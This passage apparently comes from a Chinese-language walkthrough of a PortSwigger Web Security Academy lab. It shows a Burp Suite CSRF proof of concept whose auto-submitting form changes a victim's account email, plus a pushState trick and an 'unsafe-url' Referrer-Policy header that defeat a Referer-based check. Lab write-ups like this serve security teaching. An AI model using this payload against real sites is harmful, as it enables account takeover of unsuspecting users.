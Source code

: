 [![](assets/1705890866-9b6d7375c4a681fdfbcbee2eb9da0e4c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118112025-8554da18-b5b0-1.png)

构造如下请求载荷，这将导致生成的请求中的 Referer 标头在查询字符串中包含目标网站的 URL

```plain
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/?0a9a009704a8e041817f8e5200e10091.web-security-academy.net')</script>
    <form action="https://0a9a009704a8e041817f8e5200e10091.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="liuwei&#64;163&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

[![](assets/1705890866-43b3118d7ea5bd41dc7c0e7e727d36f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118112045-91b751dc-b5b0-1.png)  
同时在 Header 部分添加如下内容：

```plain
Referrer-Policy: unsafe-url
```
